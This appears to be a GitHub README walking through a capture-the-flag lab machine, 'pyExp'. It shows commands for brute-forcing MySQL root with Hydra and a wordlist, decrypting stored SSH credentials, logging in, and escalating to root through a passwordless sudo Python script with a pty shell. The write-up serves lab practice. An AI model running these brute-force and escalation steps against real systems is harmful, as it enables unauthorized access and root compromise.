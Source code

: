 # Offsec-pyExp

```
Usage : python3 resolv-pyExp.py -i 192.168.182.118 -p 3306 -w /usr/share/wordlists/rockyou.txt
```

Specific Steps for pyExp

Reconnaissance: Scan to identify running services, particularly MySQL (tcp/3306) and SSH (tcp/1337).

Brute Force MySQL: Use Hydra to brute force MySQL access using the wordlist /usr/share/wordlist/rockyou.txt.

```bash
hydra -l root -P /usr/share/wordlist/rockyou.txt mysql://<IP_ADDRESS>:3306
```
Database Access: Extract the encrypted SSH credentials via the symmetric Fernet algorithm from the `data` table.

SSH Connection: Decrypt the credentials and connect via SSH on tcp/1337.

```bash
ssh <user>@<IP_ADDRESS> -p 1337
```
Privilege Escalation: The user 'lucy' can execute a script with root privileges without a password. Use it for privilege escalation.

```bash
sudo /usr/bin/python2 /opt/exp.py
import pty;pty.spawn("/bin/bash")
```

Flag Retrieval: Read the local.txt and proof.txt files after privilege escalation.

```bash
cat local.txt
cat /root/proof.txt
```
### Image
![offsec-pyExp1](https://github.com/Isid0r3/Offsec-pyExp/assets/120736091/14d169b5-e627-49d8-9c90-15a7ccd9bd16)


Credits : [Isid0r3](https://www.linkedin.com/in/isid0r3) & [Jedidia](https://linkedin.com/in/jedidia-d-bahena-0814161b7)
